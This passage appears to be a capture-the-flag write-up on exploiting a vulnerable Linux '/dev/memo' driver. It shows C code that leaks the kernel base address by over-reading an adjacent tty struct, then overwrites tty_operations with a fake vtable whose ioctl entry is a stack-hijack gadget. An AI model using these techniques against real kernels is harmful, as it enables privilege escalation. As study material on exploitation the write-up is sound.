 



### 1.leak kernel load base address

​	When the */dev/memo* is opened for the first time, a heap chunk wil be allocated as `memo`. We immediately open */dev/ptmx* which will palce a *tty* struct right after `memo`. 

​	We use *mod_llseek* and *mod_read* to overread *tty* struct. Trivial operation

```c
	save_state(state);
    int fd_m = open("/dev/memo", O_RDWR);
    int fd_tty = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    if(fd_m == -1 || fd_tty == -1) ErrExit("[-] cannot open dev file");

    // leak 
    if(lseek(fd_m, 0x300, SEEK_SET) != 0x300) ErrExit("[-] lseek error");
    char buf[0x400];
    read(fd_m, buf, 0x400);
    unsigned long *p;
    p = (unsigned long*)&buf[0x100];
    kernel_load_base = p[3] - 0xE65900;
    memo_buf = p[7] - 0x38 - 0x400;
    printf("[*] kernel load @ 0x%lx\n", kernel_load_base);
    printf("[*] memo buf @ 0x%lx\n", memo_buf);
    printf("[*] gadget1 @ 0x%lx\n", kernel_load_base+GADGET1);
```

​	The *tty_operations* in the *tty* struct have a fixed offset with the kernel load base address. And list pointers in the *ldisk_sem* filed of *tty* will leak the address of the *tty* struct, which in turn leak the address of the `memo`



### 2.overwrite the *tty_operations* vtable & *ioctl*

​	We use *mod_llseek* and *mod_write* to overwrite the address of *tty_opeartions* in the *tty* struct to make it point to an area in `memo`, and we will place a fake *tty_operations* vtable there whose *ioctl* is the gadget that hijack kernel stack.

```c
    p[3] = memo_buf+0x300;
    p = (unsigned long*)(buf+8*12);
    *p = kernel_load_base+GADGET1;
    if(lseek(fd_m, 0x300, SEEK_SET) != 0x300) ErrExit("[-] lseek error2");
    if(write(fd_m, buf, 0x400) != 0x400) ErrExit("[-] write error1");
```

​	*ioctl* is the 13rd function pointer in *struct tty_operations*, thus having an offset of `8*12`

```c
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	void (*cleanup)(struct tty_struct *tty);
	int  (*write)(struct tty_struct * tty,
		      const unsigned char *buf, int count);
	int  (*put_char)(struct tty_struct *tty, unsigned char ch);
	void (*flush_chars)(struct tty_struct *tty);
	unsigned int (*write_room)(struct tty_struct *tty);
	unsigned int (*chars_in_buffer)(struct tty_struct *tty);
	int  (*ioctl)(struct tty_struct *tty,
		    unsigned int cmd, unsigned long arg);
```
